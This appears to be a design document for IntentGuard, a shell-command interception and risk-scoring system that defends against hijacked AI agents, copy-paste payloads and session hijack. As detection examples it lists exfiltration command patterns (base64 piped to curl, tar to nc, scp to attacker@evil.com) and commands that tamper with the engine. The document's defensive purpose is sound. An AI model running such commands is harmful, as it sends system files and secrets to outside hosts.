# IntentGuard — Product Design & Code Execution Flow

> A complete guide explaining every feature, how they connect, and the exact code path
> each request takes — written for someone new to the project.

---

## Table of Contents

1. [Big Picture: What IntentGuard Does](#1-big-picture)
2. [Signal Ingestion & Shell Hook](#2-signal-ingestion)
3. [Divergence Scoring Pipeline](#3-scoring-pipeline)
4. [Decision Engine & Guardrails](#4-decision-engine)
5. [Intent Sessions](#5-intent-sessions)
6. [Behavioral Profiling](#6-behavioral-profiling)
7. [Indian-Language Translation & Speech](#7-translation)
8. [NL Operations Assistant](#8-nl-assistant)
9. [Control Tower & Live Push (SSE)](#9-control-tower)
10. [Policy Engine](#10-policy-engine)
11. [Self-Defense & Watchdog](#11-self-defense)
12. [Dual-Control & Exfiltration Detection](#12-dual-control)
13. [End-to-End Flow: One Command Through Everything](#13-end-to-end)

---

## 1. Big Picture: What IntentGuard Does {#1-big-picture}

Imagine a security guard between every Linux operator and their shell. Before ANY command
executes, IntentGuard intercepts it, scores how "suspicious" it is on a 0-to-1 scale, and
decides: **ALLOW** (run it), **ASK** (confirm first), or **BLOCK** (refuse).

It catches three attack types:
- **AI-agent hijack** — a compromised AI runs unauthorized commands
- **Copy-paste attacks** — malicious payloads hidden in clipboard
- **Session hijack** — someone else takes over a terminal session

The entire decision happens within a **2-second budget** so the operator barely notices.

### System Context Diagram


```mermaid
graph LR
    subgraph Operators
        H[Human Operator]
        A[AI Agent]
    end

    subgraph IntentGuard
        SH[Shell_Hook<br/>Unix Socket]
        SE[Scoring Engine]
        DE[Decision Engine]
        CT[Control Tower<br/>SSE]
        DB[(MongoDB)]
    end

    subgraph External
        GEM[Google Gemini<br/>LLM]
        AUD[auditd<br/>Kernel]
    end

    H -->|command| SH
    A -->|command| SH
    SH --> SE
    SE -->|semantic scoring| GEM
    SE --> DE
    DE -->|ALLOW/ASK/BLOCK| SH
    DE -->|persist| DB
    DE -->|live push| CT
    AUD -->|execve events| SE
    CT -->|SSE stream| H
```

### Threat Model Overview


```mermaid
graph TD
    subgraph Threat Classes
        T1[AI-Agent Hijack<br/>Prompt injection → unauthorized commands]
        T2[Copy-Paste Attack<br/>Obfuscated clipboard payloads]
        T3[Session Hijack<br/>Behavioral fingerprint mismatch]
    end

    subgraph Detection Components
        SS[Sequence Surprise]
        CM[Context Mismatch]
        SI[Semantic Inconsistency]
        BD[Behavioral Deviation]
    end

    T1 --> SI
    T1 --> BD
    T2 --> SS
    T2 --> CM
    T3 --> BD
    T3 --> SS
```

---

## 2. Signal Ingestion & Shell Hook {#2-signal-ingestion}

### Design

A shell pre-exec hook intercepts commands BEFORE execution, sends them to IntentGuard via
a Unix domain socket, and blocks until a verdict comes back. A second source (auditd logs)
provides asynchronous detection for commands that bypass the hook.

### Signal Ingestion Flow


```mermaid
sequenceDiagram
    participant Op as Operator Shell
    participant Hook as Shell Pre-exec Hook
    participant Sock as UnixDomainSocketServer
    participant Codec as ShellSignalCodec
    participant Ingest as InteractiveSignalIngestor
    participant Pipeline as Scoring + Decision

    Op->>Hook: command entered (Enter)
    Hook->>Sock: write(userId, command, cwd, env, timestamp)
    Note over Hook: BLOCKS waiting for response

    Sock->>Codec: decode(bytes)
    Codec->>Ingest: submitInteractive(RawShellSignal)

    alt Decision provider unavailable
        Ingest-->>Hook: fail-safe ASK
    else Normal path
        Ingest->>Pipeline: submit to thread pool
        Note over Ingest: waits up to 2000ms

        alt Timeout (>2s)
            Ingest-->>Hook: BLOCK (fail-safe)
        else Success
            Pipeline-->>Ingest: Verdict
            Ingest-->>Hook: ALLOW / ASK / BLOCK
        end
    end

    Hook-->>Op: execute / prompt / refuse
```

### Audit Feed (Asynchronous Detection)


```mermaid
graph LR
    K[Kernel auditd] -->|execve + file-write| AFR[AuditFeedReader]
    AFR --> C[Correlator]
    C -->|1s correlation window| M{Match with<br/>Shell Hook event?}
    M -->|Yes| CORR[Corroborated Event]
    M -->|No| DETECT[Detection-Only Event]
    CORR --> DB[(MongoDB Audit)]
    DETECT --> DB
    DETECT --> CT[Control Tower ALERT]
```

### Key files
- `ingest/UnixDomainSocketServer.java` — socket listener
- `ingest/ShellSignalCodec.java` — binary protocol codec
- `ingest/InteractiveSignalIngestor.java` — 2s budget enforcer
- `ingest/AuditFeedReader.java` — async auditd tail
- `ingest/Correlator.java` — matches hook + audit events (1s window)

---

## 3. Divergence Scoring Pipeline {#3-scoring-pipeline}

### Design

Four independent components each produce a suspicion score [0,1]. These are combined via
a **renormalized weighted sum** into a composite Divergence Score. If a component is
unavailable (e.g., Gemini timeout), it's excluded and the remaining weights renormalize.

| Component | What it measures |
|-----------|-----------------|
| **Sequence_Surprise** | n-gram statistical surprise vs. command history |
| **Context_Mismatch** | Command vs. working directory / repo / environment |
| **Semantic_Inconsistency** | LLM alignment of command with declared intent |
| **Behavioral_Deviation** | Distance from learned behavioral profile |

**Math:** `composite = sum(score_i * weight_i) / sum(weight_i)` for available components.

### Scoring Pipeline Flow


```mermaid
flowchart TD
    CTX[ScoringContext<br/>command, actor, env, session] --> P[DefaultScoringPipeline]

    P --> SS[SequenceSurpriseComponent]
    P --> CM[ContextMismatchComponent]
    P --> SI[SemanticInconsistencyComponent]
    P --> BD[BehavioralDeviationComponent]

    SS --> R1[ComponentResult<br/>score + weight]
    CM --> R2[ComponentResult<br/>score + weight]

    SI --> CHK1{Intent session<br/>exists?}
    CHK1 -->|No| EX1[EXCLUDED]
    CHK1 -->|Yes| GEM[Call Gemini<br/>1200ms timeout]
    GEM -->|Timeout| EX2[EXCLUDED]
    GEM -->|Success| R3[ComponentResult<br/>score + weight]

    BD --> CHK2{Profile state?}
    CHK2 -->|LEARNING| EX3[EXCLUDED]
    CHK2 -->|ACTIVE| R4[ComponentResult<br/>score + weight]

    R1 & R2 & R3 & R4 --> COMBINE[Combine:<br/>Σ score×weight / Σ weight<br/>Clamp to 0,1]
    EX1 & EX2 & EX3 -.->|not included| COMBINE

    COMBINE --> ADJ[AgentRiskAdjuster]
    ADJ -->|uplift if agent<br/>with risk markers| RESULT[DivergenceResult<br/>composite + components + excluded]
```

### Component Weight Distribution


```mermaid
pie title Scoring Weights (Equal Default)
    "Sequence Surprise" : 25
    "Context Mismatch" : 25
    "Semantic Inconsistency" : 25
    "Behavioral Deviation" : 25
```

> When a component is excluded, weights renormalize. E.g., if Semantic Inconsistency is excluded,
> each remaining component effectively contributes 33.3%.

### Key properties
- **Deterministic**: same inputs + config = same output, always
- **Graceful degradation**: LLM timeout just excludes one component
- **Bounded**: composite is mathematically guaranteed in [0, 1]

### Key files
- `scoring/DefaultScoringPipeline.java` — main implementation
- `scoring/SequenceSurpriseComponent.java`, `ContextMismatchComponent.java`,
  `SemanticInconsistencyComponent.java`, `BehavioralDeviationComponent.java`
- `scoring/AgentRiskAdjuster.java` — agent uplift
- `domain/DivergenceResult.java` — output record

---

## 4. Decision Engine & Guardrails {#4-decision-engine}

### Design

Takes the Divergence Score and applies an ordered chain of rules to produce a final
ALLOW/ASK/BLOCK verdict. Earlier rules short-circuit later ones.

### Decision Chain Flow


```mermaid
flowchart TD
    INPUT[CommandEvent + DivergenceResult] --> TAMPER{Step 1:<br/>TamperClassifier<br/>targets engine?}

    TAMPER -->|YES| BLOCK_T[BLOCK<br/>score=1.0<br/>REJECTED_TAMPER]
    TAMPER -->|NO| POLICY{Step 2:<br/>Policy DENY?}

    POLICY -->|YES| BLOCK_P[BLOCK<br/>POLICY_DENY]
    POLICY -->|NO| BLAST{Step 3:<br/>Blast Radius<br/>block-on-access?}

    BLAST -->|YES| BLOCK_B[BLOCK<br/>BLAST_RADIUS_BLOCK_ON_ACCESS]
    BLAST -->|NO| FLOOR[Apply score floor<br/>from blast radius]

    FLOOR --> THRESH{Step 4:<br/>Threshold Map}
    THRESH -->|"score < 0.4"| ALLOW_T[ALLOW]
    THRESH -->|"0.4 ≤ score < 0.8"| ASK_T[ASK]
    THRESH -->|"score ≥ 0.8"| BLOCK_TH[BLOCK]

    ALLOW_T --> AGENT{Step 6:<br/>Agent + no human<br/>session?}
    AGENT -->|YES| ASK_A[ASK<br/>AGENT_CONTAINMENT]
    AGENT -->|NO| FINAL_ALLOW[ALLOW]

    ASK_T --> FINAL_ASK[ASK]
    BLOCK_TH --> LEARN{Step 5:<br/>Profile LEARNING?}
    LEARN -->|YES| ASK_L[ASK<br/>LEARNING_CLAMP]
    LEARN -->|NO| FINAL_BLOCK[BLOCK]

    FINAL_ALLOW & FINAL_ASK & ASK_A & ASK_L & FINAL_BLOCK --> ACTIONFLOOR[Step 7:<br/>Action Floor<br/>max of all guardrail floors]
    ACTIONFLOOR --> DECISION[Final Decision<br/>action + score + reasonCode]

    style BLOCK_T fill:#ff6b6b,color:#fff
    style BLOCK_P fill:#ff6b6b,color:#fff
    style BLOCK_B fill:#ff6b6b,color:#fff
    style FINAL_BLOCK fill:#ff6b6b,color:#fff
    style FINAL_ALLOW fill:#51cf66,color:#fff
    style ASK_A fill:#ffd43b,color:#000
    style FINAL_ASK fill:#ffd43b,color:#000
    style ASK_L fill:#ffd43b,color:#000
```

### Threshold Ranges


```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#fff'}}}%%
graph LR
    subgraph "Score Range [0.0 — 1.0]"
        A["0.0 ————— 0.4<br/>✅ ALLOW"]
        B["0.4 ————— 0.8<br/>⚠️ ASK"]
        C["0.8 ————— 1.0<br/>🛑 BLOCK"]
    end

    style A fill:#51cf66,color:#fff
    style B fill:#ffd43b,color:#000
    style C fill:#ff6b6b,color:#fff
```

### Key files
- `decision/GuardrailDecisionEngine.java` — full chain
- `decision/DefaultDecisionEngine.java` — threshold + clamps
- `decision/TamperClassifier.java` — self-defense check
- `blastradius/BlastRadiusGuard.java` — protected targets + mass ops + destructive verbs
- `domain/Decision.java` — record(action, score, reasonCode)

---

## 5. Intent Sessions {#5-intent-sessions}

### Design

Operators declare what they plan to do in natural language. This creates a reference for
the Semantic_Inconsistency scorer. Commands matching the declared intent score LOW;
mismatches score HIGH.

**Critical rule:** AI agents can NEVER open/modify/close intent sessions.

### Intent Session Lifecycle


```mermaid
stateDiagram-v2
    [*] --> OPEN: Human opens session<br/>(POST /api/sessions)
    OPEN --> OPEN: Modify intent<br/>(Human only)
    OPEN --> CLOSED: Human closes session
    OPEN --> CLOSED: Timeout / session expires

    state OPEN {
        [*] --> Translating: Non-English input
        [*] --> Active: English input
        Translating --> Active: Translation success
        Translating --> Rejected: Translation failure
    }

    note right of OPEN
        Agent mutation attempts
        are ALWAYS rejected with
        AgentIntentMutationException
    end note
```

### Intent Session Flow


```mermaid
sequenceDiagram
    participant Op as Operator
    participant API as IntentSessionController
    participant IIS as InboundIntentService
    participant TS as TranslationService
    participant ISM as IntentSessionManager
    participant SC as SemanticInconsistencyComponent

    Op->>API: POST /api/sessions {text, lang, actor}
    API->>IIS: submit(operatorId, text, lang, actor)

    alt Actor is Agent
        IIS-->>API: throw AgentIntentMutationException
        API-->>Op: 403 Forbidden
    else Non-English
        IIS->>TS: translateInbound(text, lang)
        alt Translation succeeds
            TS-->>IIS: englishText
            IIS->>ISM: open(user, englishText, originalText, lang)
        else Translation fails
            TS-->>IIS: failure
            IIS-->>API: rejected(retryPrompt)
            API-->>Op: 422 with localized message
        end
    else English
        IIS->>ISM: open(user, text, actor)
    end

    ISM-->>API: IntentSession
    API-->>Op: 201 Created {sessionId}

    Note over SC: Later, during command scoring...
    SC->>ISM: getActiveSession(userId)
    ISM-->>SC: session.declaredIntent
    SC->>SC: Compare command vs intent via Gemini
```

### Key files
- `intent/IntentSessionManager.java` — open/close/modify/query
- `intent/InboundIntentService.java` — translation + session opening
- `intent/IntentSession.java` — session data
- `intent/AgentIntentMutationException.java` — agent rejection

---

## 6. Behavioral Profiling {#6-behavioral-profiling}

### Design

Per-user learned model of normal command behavior. Two states:
- **LEARNING** (< 200 events): building the model, never BLOCK (clamp to ASK)
- **ACTIVE** (200+ events): full scoring enabled, BLOCK allowed

### Profile State Machine


```mermaid
stateDiagram-v2
    [*] --> LEARNING: First command observed
    LEARNING --> LEARNING: event count < 200<br/>Model updates, BLOCK→ASK
    LEARNING --> ACTIVE: event count ≥ 200
    ACTIVE --> ACTIVE: Continuous learning<br/>Full scoring enabled

    note right of LEARNING
        Safety: Never BLOCK
        during learning phase.
        All BLOCKs downgraded to ASK.
    end note

    note right of ACTIVE
        BehavioralDeviation component
        fully active. BLOCK allowed.
    end note
```

### Behavioral Scoring Flow


```mermaid
flowchart TD
    EVT[CommandEvent] --> PSP[ProfileSnapshotProvider]
    PSP --> STATE{Profile State?}

    STATE -->|LEARNING| EXCL[Return EXCLUDED<br/>reason: PROFILE_LEARNING]
    STATE -->|ACTIVE| COMPARE[Compare event vs profile]

    COMPARE --> VOC[Command vocabulary<br/>distance]
    COMPARE --> TOD[Time-of-day<br/>distance]
    COMPARE --> DIR[Directory pattern<br/>distance]
    COMPARE --> SEQ[Sequence<br/>surprise]

    VOC & TOD & DIR & SEQ --> SCORE[ComponentResult<br/>score ∈ 0,1]

    EVT --> SAD[SessionAnomalyDetector]
    SAD --> ANOM{Anomaly<br/>detected?}
    ANOM -->|Yes| ALERT[Push ALERT to<br/>Control Tower]
    ANOM -->|No| NOOP[No action]
```

### Key files
- `profile/BehavioralProfile.java` — learned model
- `profile/SessionAnomalyDetector.java` — real-time anomaly detection
- `scoring/BehavioralDeviationComponent.java` — scoring integration

---

## 7. Indian-Language Translation & Speech {#7-translation}

### Design

11 Indian languages supported. All internal processing uses English. Translation is a
presentation layer that converts operator input to English and alerts back to their language.

**TechnicalTokenProtector** masks commands/paths/IPs before translation, restores them
byte-for-byte after — guaranteeing technical terms are never mangled.

### Translation Pipeline


```mermaid
flowchart TD
    INPUT[Input text + source language] --> CACHE{TranslationCache<br/>hit?}

    CACHE -->|HIT| RETURN[Return cached result]
    CACHE -->|MISS| PROTECT[TechnicalTokenProtector.protect]

    PROTECT --> MASKED["maskedText + tokenMap<br/>{T1=nginx, T2=/var/log}"]
    MASKED --> GATE{SensitiveContentGate}

    GATE -->|SENSITIVE| BLOCKED[Return BLOCKED]
    GATE -->|OK| PROVIDER[TranslationProvider.translate]

    PROVIDER --> G[GeminiTranslationProvider<br/>Primary]
    PROVIDER --> B[BhashiniTranslationProvider<br/>Government stack]
    PROVIDER --> C[CloudTranslationProvider<br/>Alternate]

    G & B & C --> TIMEOUT{Timeout<br/>2000ms?}
    TIMEOUT -->|YES| FALLBACK[Fall back to English]
    TIMEOUT -->|NO| RESTORE[TechnicalTokenProtector.restore]

    RESTORE --> CACHE_PUT[TranslationCache.put]
    CACHE_PUT --> RESULT[TranslationResult<br/>TRANSLATED + restoredText]

    style BLOCKED fill:#ff6b6b,color:#fff
    style FALLBACK fill:#ffd43b,color:#000
```

### Supported Languages


```mermaid
graph TD
    subgraph "11 Supported Languages"
        EN[English - en]
        HI[Hindi - hi]
        BN[Bengali - bn]
        TE[Telugu - te]
        MR[Marathi - mr]
        TA[Tamil - ta]
        GU[Gujarati - gu]
        KN[Kannada - kn]
        ML[Malayalam - ml]
        PA[Punjabi - pa]
        OR[Odia - or]
    end

    EN -->|Internal processing| CORE[IntentGuard Core<br/>Always English internally]
    HI & BN & TE & MR & TA & GU & KN & ML & PA & OR -->|Translate inbound| CORE
    CORE -->|Translate outbound| HI & BN & TE & MR & TA & GU & KN & ML & PA & OR
```

### Speech-to-Text Flow


```mermaid
sequenceDiagram
    participant Op as Operator
    participant SC as SpeechController
    participant GEM as Gemini Multimodal API

    Op->>SC: POST /api/speech/recognize<br/>{audio (Base64), mimeType, languageTag}
    SC->>GEM: audio + language hint
    Note over GEM: 10000ms timeout
    GEM-->>SC: recognized text
    SC-->>Op: SpeechRecognitionView{text}

    Note over Op: Can use recognized text<br/>as intent declaration or NL query
```

### Key files
- `translation/TranslationService.java` — orchestrator
- `translation/TechnicalTokenProtector.java` — token preservation
- `translation/GeminiTranslationProvider.java` — Gemini backend
- `translation/TranslatingLiveEventSink.java` — auto-translates SSE alerts
- `speech/SpeechController.java` — STT/TTS endpoints

---

## 8. NL Operations Assistant {#8-nl-assistant}

### Design

Operators describe tasks in natural language (any of 11 languages). The system generates
2-3 safe shell commands, scores the selected one through the full safety pipeline, and
executes only after explicit confirmation.

### NL Assistant Session Lifecycle


```mermaid
stateDiagram-v2
    [*] --> Query: POST /api/assist
    Query --> Generated: Commands generated
    Generated --> Scored: POST /api/assist/select
    Scored --> Executed: POST /api/assist/confirm
    Scored --> Query: New query (multi-turn)
    Executed --> Query: New query (multi-turn)
    Query --> [*]: DELETE /api/assist/sessions/{id}
    Generated --> [*]: Session timeout (5min idle)

    note right of Query
        Rate limited: 10/min per operator
        Translation: non-English → English
    end note

    note right of Scored
        BLOCK → cannot confirm
        ASK/ALLOW → can confirm
    end note
```

### Full Assist Flow


```mermaid
sequenceDiagram
    participant Op as Operator
    participant AC as AssistController
    participant NL as DefaultNlAssistService
    participant RL as AssistRateLimiter
    participant SM as AssistSessionManager
    participant IIS as InboundIntentService
    participant GEN as GeminiCommandGenerator
    participant BL as GenerationBlocklist
    participant SP as ScoringPipeline
    participant DE as GuardrailDecisionEngine
    participant EX as CommandExecutor

    %% Query Phase
    Op->>AC: POST /api/assist {query}
    AC->>NL: query(operatorId, request)
    NL->>RL: checkAndRecord(operatorId)
    alt Rate exceeded
        RL-->>AC: 429 Too Many Requests
    end
    NL->>SM: getOrCreate(sessionId, operatorId)
    NL->>IIS: submit(query) → translate + open intent
    NL->>GEN: generate(englishQuery, history)
    GEN-->>NL: List〈CommandAlternative〉
    NL->>BL: filter(alternatives)
    alt All blocked
        BL-->>AC: 422 Unprocessable
    end
    NL-->>Op: AssistResponse{sessionId, alternatives}

    %% Select Phase
    Op->>AC: POST /api/assist/select {commandIndex}
    AC->>NL: select(operatorId, request)
    NL->>SP: score(commandEvent)
    SP-->>NL: DivergenceResult
    NL->>DE: decide(event, result, ...)
    DE-->>NL: Decision(action, score, reason)
    NL-->>Op: SelectResponse{command, score, action}

    %% Confirm Phase
    Op->>AC: POST /api/assist/confirm
    AC->>NL: confirm(operatorId, request)
    alt Decision was BLOCK
        NL-->>AC: 403 Forbidden
    else ALLOW or ASK-confirmed
        NL->>EX: execute(command, cwd) [30s timeout]
        EX-->>NL: stdout, stderr, exitCode
        NL-->>Op: ConfirmResponse{output}
    end
```

### Key files
- `assist/AssistController.java` — REST endpoints + exception handlers
- `assist/DefaultNlAssistService.java` — full orchestrator
- `assist/GeminiCommandGenerator.java` — LLM command generation
- `assist/GenerationBlocklist.java` — regex safety filter
- `assist/AssistRateLimiter.java` — per-operator sliding window
- `assist/CommandExecutor.java` — ProcessBuilder with timeout
- `assist/AssistSessionManager.java` — in-memory sessions + idle eviction

---

## 9. Control Tower & Live Push (SSE) {#9-control-tower}

### Design

Real-time dashboard via Server-Sent Events. Every scoring decision, alert, and session
event is pushed instantly to connected browsers. Per-subscriber language translation
ensures each analyst sees events in their preferred language.

### SSE Architecture


```mermaid
flowchart LR
    subgraph Engine Events
        SC[Scoring Decision]
        AL[Anomaly Alert]
        SE[Session Lifecycle]
    end

    SC & AL & SE --> SINK[TranslatingLiveEventSink]

    SINK --> SUB1[Subscriber 1<br/>lang: en]
    SINK --> SUB2[Subscriber 2<br/>lang: hi]
    SINK --> SUB3[Subscriber 3<br/>lang: ta]

    SINK -->|translate to hi| SUB2
    SINK -->|translate to ta| SUB3

    SUB1 & SUB2 & SUB3 --> SSE[SseEmitter<br/>infinite timeout]

    SSE -->|dead connection?| REMOVE[Auto-remove]
```

### SSE Subscription Flow


```mermaid
sequenceDiagram
    participant Browser as Control Tower UI
    participant LPC as LivePushController
    participant TLES as TranslatingLiveEventSink
    participant TS as TranslationService
    participant Engine as Scoring/Decision Engine

    Browser->>LPC: GET /api/stream
    LPC->>LPC: Create SseEmitter (∞ timeout)
    LPC->>TLES: register(emitter, operatorId)
    LPC-->>Browser: HTTP 200 (SSE stream open)

    loop Every engine event
        Engine->>TLES: push(LiveEvent)
        TLES->>TLES: Get operator language pref

        alt Language ≠ English
            TLES->>TS: translate(message, "en", pref)
            TS-->>TLES: localized message
        end

        TLES->>Browser: emitter.send(event)
    end

    Note over Browser,TLES: On IOException → remove dead emitter
```

### Other Control Tower endpoints
- `GET /api/history` — query audit history by user/time
- `PUT /api/thresholds` — hot-reload scoring thresholds
- `POST /api/events/{id}/resolve` — admin resolves pending ASK
- `POST /api/events/{id}/approve` — four-eyes dual-control approval

### Key files
- `api/LivePushController.java` — SSE endpoint
- `api/ControlTowerController.java` — history, thresholds, resolution
- `translation/TranslatingLiveEventSink.java` — per-subscriber translation

---

## 10. Policy Engine {#10-policy-engine}

### Design

Deterministic rules that override AI scoring. Three types:
- **DENY** — always BLOCK (before learning clamp, so never downgraded)
- **REQUIRE_CONFIRM** — floor to ASK minimum
- **ALLOW** — suppress threshold-map BLOCK (but not tamper/DENY)

### Policy Evaluation Flow


```mermaid
flowchart TD
    EVT[CommandEvent] --> LOAD[Load active policies<br/>from cache]
    LOAD --> SORT[Sort by priority<br/>highest first]
    SORT --> LOOP{For each rule}

    LOOP --> SCOPE{Scope matches?<br/>user/group/env}
    SCOPE -->|NO| LOOP
    SCOPE -->|YES| PAT{Pattern matches<br/>command text?}
    PAT -->|NO| LOOP
    PAT -->|YES| MATCH[Return PolicyDecision<br/>type + rule]
    LOOP -->|No rules matched| NONE[PolicyDecision.none]

    MATCH --> INT[Integration in<br/>GuardrailDecisionEngine]
    NONE --> INT

    INT --> D1[DENY → BLOCK at Step 2]
    INT --> D2[REQUIRE_CONFIRM → raise floor to ASK]
    INT --> D3[ALLOW + base=BLOCK → suppress to ALLOW]

    style D1 fill:#ff6b6b,color:#fff
    style D2 fill:#ffd43b,color:#000
    style D3 fill:#51cf66,color:#fff
```

### Key files
- `policy/PolicyEngine.java` — evaluator
- `policy/PolicyRule.java` — pattern + type + scope + priority
- `policy/PolicyDecision.java` — result enum

---

## 11. Self-Defense & Watchdog {#11-self-defense}

### Design

Three layers ensuring IntentGuard itself cannot be disabled:

1. **TamperClassifier** — detects commands targeting the engine -> BLOCK (score=1.0, no exceptions)
2. **SelfDefenseGuard** — rejects API operations on engine internals
3. **MonitoringGapWatchdog** — alerts when audit feed goes silent (default 5s timeout)

### Self-Defense Layers

```mermaid
flowchart TD
    subgraph "Layer 1: Command-Level (TamperClassifier)"
        CMD[Command text] --> PAT1{"kill/pkill +<br/>intentguard?"}
        CMD --> PAT2{"rm/mv on<br/>engine paths?"}
        CMD --> PAT3{"mongo +<br/>intentguard DB?"}
        CMD --> PAT4{"rm socket<br/>path?"}
        CMD --> PAT5{"auditctl -D /<br/>stop auditd?"}

        PAT1 & PAT2 & PAT3 & PAT4 & PAT5 -->|ANY match| BLOCK1[BLOCK<br/>score=1.0<br/>Step 1 in decision chain]
    end

    subgraph "Layer 2: API-Level (SelfDefenseGuard)"
        API[API Request] --> CHK{Targets engine<br/>internals?}
        CHK -->|YES| REJECT[Reject + audit log]
        CHK -->|NO| PASS[Allow through]
    end

    subgraph "Layer 3: Monitoring (MonitoringGapWatchdog)"
        SCHED[Scheduled task] --> LAST[Check lastEventTimestamp]
        LAST --> GAP{"now - last ><br/>5000ms?"}
        GAP -->|YES| ALERT[Push ALERT:<br/>Audit feed silent]
        GAP -->|NO| OK[Continue monitoring]
    end

    style BLOCK1 fill:#ff6b6b,color:#fff
    style REJECT fill:#ff6b6b,color:#fff
    style ALERT fill:#ffd43b,color:#000
```

### Key files
- `decision/TamperClassifier.java` — command-level self-defense
- `watchdog/SelfDefenseGuard.java` — API-level protection
- `watchdog/MonitoringGapWatchdog.java` — monitoring continuity

---

## 12. Dual-Control & Exfiltration Detection {#12-dual-control}

### Dual-Control (Four-Eyes Approval)

Sensitive operations require TWO people: the originator + a distinct approver.
Self-approval is always rejected. Timeout -> BLOCK (fail safe).

### Four-Eyes Approval Flow

```mermaid
sequenceDiagram
    participant Op as Operator (originator)
    participant IG as IntentGuard
    participant CT as Control Tower
    participant Ap as Approver (different person)

    Op->>IG: sensitive command
    IG->>IG: Decision: DUAL_CONTROL required
    IG->>CT: Show pending approval
    IG-->>Op: Command withheld (PENDING)

    alt Timeout exceeded
        IG-->>Op: BLOCK (fail-safe)
    else Self-approval attempt
        Op->>IG: POST /api/events/{id}/approve
        IG-->>Op: 403 Self-approval rejected
    else Valid approval
        Ap->>IG: POST /api/events/{id}/approve
        IG->>IG: Verify approver ≠ originator
        IG-->>Op: Command APPROVED → executes
    end
```

### Exfiltration Detection Patterns

```mermaid
flowchart LR
    subgraph "Exfiltration Patterns Detected"
        P1["cat secret | base64 | curl<br/>Encoding + Network"]
        P2["tar | nc external:4444<br/>Archive + Netcat"]
        P3["scp sensitive attacker@remote:<br/>Direct Copy"]
    end

    P1 & P2 & P3 --> DET[ExfiltrationDetector]
    DET --> FLOOR[Raise divergence<br/>score floor]
    DET --> ALERT[Push ALERT to<br/>Control Tower]

    subgraph "Canary Tokens"
        CAN[Injected canary markers<br/>in sensitive files]
        CAN --> CORR[Correlation:<br/>canary appears in<br/>outbound traffic?]
        CORR -->|YES| DET
    end
```

### Key files
- `dualcontrol/DualControlService.java` — approval workflow
- `exfil/ExfiltrationDetector.java` — pattern + canary detection

---

## 13. End-to-End Flow: One Command Through Everything {#13-end-to-end}

**Scenario:** Operator "ravi" types `scp /etc/passwd attacker@evil.com:/tmp/`
with active intent: "checking nginx config files"

### Complete Request Timeline

```mermaid
gantt
    title Command Processing Timeline (within 2s budget)
    dateFormat X
    axisFormat %Lms

    section Ingestion
    Shell hook intercepts & sends to socket   :a1, 0, 5
    Decode + normalize                        :a2, 5, 20

    section Scoring (parallel potential)
    Sequence Surprise (0.7)                   :b1, 30, 100
    Context Mismatch (0.6)                    :b2, 30, 100
    Semantic Inconsistency via Gemini (0.95)  :b3, 30, 1200
    Behavioral Deviation (0.8)                :b4, 30, 200
    Combine + AgentRiskAdjust                 :b5, 1200, 1210

    section Guardrails
    BlastRadiusGuard (/etc/passwd protected)  :c1, 1210, 1220

    section Decision
    Decision Engine: blockOnAccess → BLOCK    :d1, 1220, 1230

    section Response
    Verdict sent to shell hook                :e1, 1230, 1235
```

### End-to-End Sequence

```mermaid
sequenceDiagram
    participant Ravi as Operator "ravi"
    participant Hook as Shell Hook
    participant Socket as UnixDomainSocketServer
    participant SP as ScoringPipeline
    participant GEM as Gemini (1200ms)
    participant BR as BlastRadiusGuard
    participant DE as DecisionEngine
    participant DB as MongoDB
    participant CT as Control Tower

    Ravi->>Hook: scp /etc/passwd attacker@evil.com:/tmp/
    Hook->>Socket: encoded signal (0ms)
    Socket->>SP: score(ScoringContext)

    par Scoring Components
        SP->>SP: SequenceSurprise → 0.7
        SP->>SP: ContextMismatch → 0.6
        SP->>GEM: SemanticInconsistency(passwd vs nginx intent)
        GEM-->>SP: 0.95
        SP->>SP: BehavioralDeviation → 0.8
    end

    SP->>SP: Composite = 0.7625
    SP->>BR: evaluate(/etc/passwd)
    BR-->>DE: blockOnAccess = TRUE

    DE->>DE: Step 1: Not tamper → pass
    DE->>DE: Step 2: No DENY policy → pass
    DE->>DE: Step 3: blockOnAccess → SHORT-CIRCUIT BLOCK

    DE-->>Socket: Decision(BLOCK, 0.7625)
    Socket-->>Hook: BLOCK verdict
    Hook-->>Ravi: Command REFUSED (never runs)

    par Async persistence
        DE->>DB: Persist audit event
        DE->>CT: Push ALERT (exfil pattern)
    end

    Note over Ravi,CT: Total: ~1230ms (within 2000ms budget)
```

### What Changes Under Different Scenarios

```mermaid
flowchart TD
    CMD[Command Received] --> S1{ls -la<br/>score: 0.1?}
    CMD --> S2{ravi has<br/>50 events?}
    CMD --> S3{AI agent, no<br/>human session?}
    CMD --> S4{kill intentguard?}
    CMD --> S5{No intent<br/>session?}
    CMD --> S6{Gemini<br/>timed out?}
    CMD --> S7{All components<br/>excluded?}

    S1 -->|YES| R1[Threshold → ALLOW ✅]
    S2 -->|YES| R2[BehavDev excluded<br/>Learning Clamp → ASK ⚠️]
    S3 -->|YES| R3[Agent Containment → ASK ⚠️]
    S4 -->|YES| R4[TamperClassifier → BLOCK 🛑]
    S5 -->|YES| R5[SemanticIncon excluded<br/>3 components renormalize]
    S6 -->|YES| R6[SemanticIncon excluded<br/>3 components renormalize]
    S7 -->|YES| R7[Composite=0.0<br/>Agent/learning clamps still apply]

    style R1 fill:#51cf66,color:#fff
    style R2 fill:#ffd43b,color:#000
    style R3 fill:#ffd43b,color:#000
    style R4 fill:#ff6b6b,color:#fff
```
